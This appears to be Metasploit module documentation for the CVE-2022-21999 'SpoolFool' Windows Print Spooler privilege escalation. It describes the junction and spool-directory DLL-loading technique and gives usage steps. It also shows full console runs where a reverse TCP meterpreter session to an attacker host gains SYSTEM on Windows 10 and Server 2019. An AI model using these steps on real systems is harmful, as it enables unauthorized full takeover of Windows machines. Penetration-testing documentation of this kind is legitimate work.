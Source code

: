 
## Vulnerable Application

The Windows Print Spooler has a privilege escalation vulnerability that
can be leveraged to achieve code execution as SYSTEM.

The `SpoolDirectory`, a configuration setting that holds the path that
a printer's spooled jobs are sent to, is writable for all users, and it can
be configured via `SetPrinterDataEx()` provided the caller has the
`PRINTER_ACCESS_ADMINISTER` permission. If the `SpoolDirectory` path does not
exist, it will be created once the print spooler reinitializes.

Calling `SetPrinterDataEx()` with the `CopyFiles\` registry key will load the
dll passed in as the `pData` argument, meaning that writing a dll to the `SpoolDirectory`
location can be loaded by the print spooler.

Using a directory junction and UNC path for the `SpoolDirectory`, the exploit
writes a payload to `C:\Windows\System32\spool\drivers\x64\4` and loads it
by calling `SetPrinterDataEx()`, resulting in code execution as SYSTEM.

This has been tested on Windows 10 and Windows Server 2019.

## Verification Steps

1. Get a meterpreter session on the target
2. Do: `use exploit/windows/local/cve_2022_21999_spoolfool_privesc`
3. Do: `set SESSION <sess_no>`
4. Do: `set LHOST <lhost>`
5. Do: `set LPORT <port_no>`
6. Do: `run`
7. You should get a meterpreter session with SYSTEM privileges.

## Options

### WAIT_TIME

The time to wait for the print spooler to restart

## Scenarios

### Windows 10 21H2 (Build 19044.1288)

```
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.98.1:4444
[*] Sending stage (200262 bytes) to 172.16.98.146
[*] Meterpreter session 1 opened (172.16.98.1:4444 -> 172.16.98.146:49674 ) at 2022-03-14 09:02:21 -0500

meterpreter > getuid
Server username: DESKTOP-49N0D8H\shelbypace
meterpreter > sysinfo
Computer        : DESKTOP-49N0D8H
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/cve_2022_21999_spoolfool_privesc
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/cve_2022_21999_spoolfool_privesc) > set lhost 172.16.98.1
lhost => 172.16.98.1
msf exploit(windows/local/cve_2022_21999_spoolfool_privesc) > set session 1
session => 1
msf exploit(windows/local/cve_2022_21999_spoolfool_privesc) > run

[*] Started reverse TCP handler on 172.16.98.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Making base directory: C:\Users\shelbypace\AppData\Local\Temp\sYOsQqHLPd
[+] Printer DZBUma was successfully added.
[*] Setting spool directory: \\localhost\C$\Users\shelbypace\AppData\Local\Temp\sYOsQqHLPd\4
[*] Creating junction point: C:\Users\shelbypace\AppData\Local\Temp\sYOsQqHLPd -> C:\Windows\System32\spool\drivers\x64
[*] Creating the spool directory by restarting spooler...
[*] Attempting to restart print spooler.
[*] Sleeping for 5 seconds.
[+] Directory was successfully created.
[*] Writing payload to C:\Windows\System32\spool\drivers\x64\4\tqDNFaf.dll.
[*] Attempting to set permissions for payload.
[*] Payload should have read / execute permissions now.
[*] Sending stage (200262 bytes) to 172.16.98.146
[*] Meterpreter session 2 opened (172.16.98.1:4444 -> 172.16.98.146:49677 ) at 2022-03-14 09:08:36 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-49N0D8H
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Windows 10 1709 (Build 16299)

```
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.98.1:4444
[*] Sending stage (200262 bytes) to 172.16.98.144
[*] Meterpreter session 1 opened (172.16.98.1:4444 -> 172.16.98.144:49671 ) at 2022-03-11 08:02:46 -0600

meterpreter > getuid
Server username: DESKTOP-EULFBD8\space
meterpreter > sysinfo
Computer        : DESKTOP-EULFBD8
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/cve_2022_21999_spoolfool_privesc
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/cve_2022_21999_spoolfool_privesc) > set session 1
session => 1
msf exploit(windows/local/cve_2022_21999_spoolfool_privesc) > set lhost 172.16.98.1
lhost => 172.16.98.1
msf exploit(windows/local/cve_2022_21999_spoolfool_privesc) > run

[*] Started reverse TCP handler on 172.16.98.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Making base directory: C:\Users\space\AppData\Local\Temp\Xvamagt
[+] Printer ukfoJL was successfully added.
[*] Setting spool directory: \\localhost\C$\Users\space\AppData\Local\Temp\Xvamagt\4
[*] Creating junction point: C:\Users\space\AppData\Local\Temp\Xvamagt -> C:\Windows\System32\spool\drivers\x64
[*] Creating the spool directory by restarting spooler...
[*] Attempting to restart print spooler.
[*] Sleeping for 5 seconds.
[+] Directory was successfully created.
[*] Writing payload to C:\Windows\System32\spool\drivers\x64\4\UYoQz.dll.
[*] Attempting to set permissions for payload.
[*] Payload should have read / execute permissions now.
[*] Sending stage (200262 bytes) to 172.16.98.144
[*] Meterpreter session 2 opened (172.16.98.1:4444 -> 172.16.98.144:49674 ) at 2022-03-11 08:08:32 -0600

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-EULFBD8
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

## Windows Server 2019 v1809 (Build 17763.1577)

```
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.16.98.1:4444
[*] Sending stage (200262 bytes) to 172.16.98.142
[*] Meterpreter session 1 opened (172.16.98.1:4444 -> 172.16.98.142:49674 ) at 2022-03-10 16:55:26 -0600

meterpreter > getuid
Server username: WIN-VR5A12O80FQ\space
meterpreter > sysinfo
Computer        : WIN-VR5A12O80FQ
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/cve_2022_21999_spoolfool_privesc
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/cve_2022_21999_spoolfool_privesc) > set session 1
session => 1
msf exploit(windows/local/cve_2022_21999_spoolfool_privesc) > set lhost 172.16.98.1
lhost => 172.16.98.1
msf exploit(windows/local/cve_2022_21999_spoolfool_privesc) > run

[*] Started reverse TCP handler on 172.16.98.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Making base directory: C:\Users\space\AppData\Local\Temp\ruXuBfgxx
[*] v4 directory already exists.
[*] Writing payload to C:\Windows\System32\spool\drivers\x64\4\dVADJcO.dll
[*] Attempting to set permissions for payload.
[*] Payload should have read / execute permissions now.
[*] Sending stage (200262 bytes) to 172.16.98.142
[*] Meterpreter session 2 opened (172.16.98.1:4444 -> 172.16.98.142:49675 ) at 2022-03-10 17:01:02 -0600

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-VR5A12O80FQ
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
